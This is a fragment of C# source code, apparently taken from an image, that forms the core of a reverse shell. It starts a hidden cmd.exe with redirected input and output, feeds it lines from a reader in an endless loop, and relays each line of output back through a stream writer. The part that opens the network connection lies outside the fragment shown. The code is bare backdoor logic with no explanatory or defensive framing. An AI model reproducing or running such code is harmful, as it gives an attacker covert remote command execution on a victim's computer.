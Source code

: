     Process p = new Process();
    
    p.StartInfo.FileName = "cmd.exe";
    
    p.StartInfo.CreateNoWindow = true;
    
    p.StartInfo.UseShellExecute = false;
    
    p.StartInfo.RedirectStandardOutput = true;
    
    p.StartInfo.RedirectStandardInput = true;
    
    p.StartInfo.RedirectStandardError = true;
    
    p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
    
    p.Start();
    
    p.BeginOutputReadLine(); 
    
    while(true)
    
    {
    
    strInput.Append(rdr.ReadLine());
    
    p.StandardInput.WriteLine(strInput);
    
    strInput.Remove(0, strInput.Length);
    
    }
    
    }
    
    }
    
    }
    
    } 
    
    private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
    
    {
    
    StringBuilder strOutput = new StringBuilder(); 
    
    if (!String.IsNullOrEmpty(outLine.Data))
    
    {
    
    try
    
    {
    
    strOutput.Append(outLine.Data);
    
    streamWriter.WriteLine(strOutput);
    
    streamWriter.Flush();
    
    }
    
    catch (Exception err) { }
    
    }
    